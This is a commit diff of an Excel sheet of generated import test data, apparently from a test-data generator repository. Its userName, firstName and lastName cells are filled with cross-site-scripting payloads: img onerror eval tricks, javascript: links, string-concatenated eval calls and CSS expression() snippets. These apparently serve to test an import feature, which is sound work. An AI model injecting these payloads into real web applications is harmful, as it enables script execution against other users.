

Before and after one commit to pintugorai/testDataGemeratorForImport, an Excel workbook: dataFolder/output.xlsx, sheet Data, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
0006: minor changes in output  xlsx

```diff
--- a/dataFolder/output.xlsx (sheet Data)
+++ b/dataFolder/output.xlsx (sheet Data)
-sheet tab: Sheet_name_1
+sheet tab: Data
-column A, rows 2-12: 0 | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 10
-A2 (userName): PG_local_u1a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);
+A2 (userName): PG_local_u1eval(a+b+c+d);
-G2 (firstName): </script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
+G2 (firstName): a="get";b="URL";c="javascript:";d="alert('xss');";eval(a+b+c+d);
-H2 (lastName): </script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
+H2 (lastName): <script>for((i)in(self))eval(i)(1)</script>
-A3 (userName): PG_local_u2<form><a href="javascript:\u0061lert&#x28;1&#x29;">X</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
+A3 (userName): PG_local_u2<div style="x:expression((window.r==1)?'':eval('r=1;
-G3 (firstName): <form><a href="javascript:\u0061lert&#x28;1&#x29;">X</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
+G3 (firstName): a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);
-H3 (lastName): <div style="x:expression((window.r==1)?'':eval('r=1;
+H3 (lastName): a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);
-A4 (userName): PG_local_u3</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
+A4 (userName): PG_local_u3a=";get";;&;#10;b=";URL(";";;&;#10;c=";javascript:";;&;#10;d=";alert(';XSS';);";)";;&#10;eval(a+b+c+d);
-G4 (firstName): a=";get";;&;#10;b=";URL(";";;&;#10;c=";javascript:";;&;#10;d=";alert(';XSS';);";)";;&#10;eval(a+b+c+d);
+G4 (firstName): <script>for((i)in(self))eval(i)(1)</script>
-H4 (lastName): a=&quot;get&quot;;&amp;#10;b=&quot;URL(&quot;&quot;;&amp;#10;c=&quot;javascript:&quot;;&amp;#10;d=&quot;alert(&apos;XSS&apos;);&quot;)&quot;;&#10;eval(a+b+c+d);
+H4 (lastName): <div style="x:expression((window.r==1)?'':eval('r=1;
-A5 (userName): PG_local_u4</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
+A5 (userName): PG_local_u4a=&quot;get&quot;;&amp;#10;b=&quot;URL(&quot;&quot;;&amp;#10;c=&quot;javascript:&quot;;&amp;#10;d=&quot;alert(&apos;XSS&apos;);&quot;)&quot;;&#10;eval(a+b+c+d);
-G5 (firstName): </script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
+G5 (firstName): a=&quot;get&quot;;&amp;#10;b=&quot;URL(&quot;&quot;;&amp;#10;c=&quot;javascript:&quot;;&amp;#10;d=&quot;alert(&apos;XSS&apos;);&quot;)&quot;;&#10;eval(a+b+c+d);
-H5 (lastName): a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);
+H5 (lastName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
-A6 (userName): PG_local_u5<form><a href="javascript:\u0061lert&#x28;1&#x29;">X</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
+A6 (userName): PG_local_u5a="get";b="URL";c="javascript:";d="alert('xss');";eval(a+b+c+d);
-G6 (firstName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
+G6 (firstName): <form><a href="javascript:\u0061lert&#x28;1&#x29;">X</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
-H6 (lastName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
+H6 (lastName): <script>for((i)in(self))eval(i)(1)</script>
-A7 (userName): PG_local_u6eval(a+b+c+d);
+A7 (userName): PG_local_u6a="get";b="URL";c="javascript:";d="alert('xss');";eval(a+b+c+d);
-G7 (firstName): <script>for((i)in(self))eval(i)(1)</script>
+G7 (firstName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
-H7 (lastName): a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);
+H7 (lastName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
-A8 (userName): PG_local_u7<script>for((i)in(self))eval(i)(1)</script>
+A8 (userName): PG_local_u7</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
-G8 (firstName): a="get";b="URL";c="javascript:";d="alert('xss');";eval(a+b+c+d);
+G8 (firstName): a=";get";;&;#10;b=";URL(";";;&;#10;c=";javascript:";;&;#10;d=";alert(';XSS';);";)";;&#10;eval(a+b+c+d);
-H8 (lastName): <script>for((i)in(self))eval(i)(1)</script>
+H8 (lastName): eval(a+b+c+d);
-A9 (userName): PG_local_u8<form><a href="javascript:\u0061lert&#x28;1&#x29;">X</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
+A9 (userName): PG_local_u8<div style="x:expression((window.r==1)?'':eval('r=1;
-G9 (firstName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
+G9 (firstName): eval(a+b+c+d);
-H9 (lastName): a=";get";;&;#10;b=";URL(";";;&;#10;c=";javascript:";;&;#10;d=";alert(';XSS';);";)";;&#10;eval(a+b+c+d);
+H9 (lastName): a="get";b="URL";c="javascript:";d="alert('xss');";eval(a+b+c+d);
-A10 (userName): PG_local_u9<div style="x:expression((window.r==1)?'':eval('r=1;
+A10 (userName): PG_local_u9</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
-G10 (firstName): <div style="x:expression((window.r==1)?'':eval('r=1;
+G10 (firstName): a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);
-H10 (lastName): </script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
+H10 (lastName): <script>for((i)in(self))eval(i)(1)</script>
-G11 (firstName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
+G11 (firstName): <div style="x:expression((window.r==1)?'':eval('r=1;
-H11 (lastName): <div style="x:expression((window.r==1)?'':eval('r=1;
+H11 (lastName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
-A12 (userName): PG_local_u11a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);
+A12 (userName): PG_local_u11</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
-H12 (lastName): eval(a+b+c+d);
+H12 (lastName): a=";get";;&;#10;b=";URL(";";;&;#10;c=";javascript:";;&;#10;d=";alert(';XSS';);";)";;&#10;eval(a+b+c+d);
```
Also changed, not shown: 1288 edited cells elsewhere in this sheet, 1 other file.
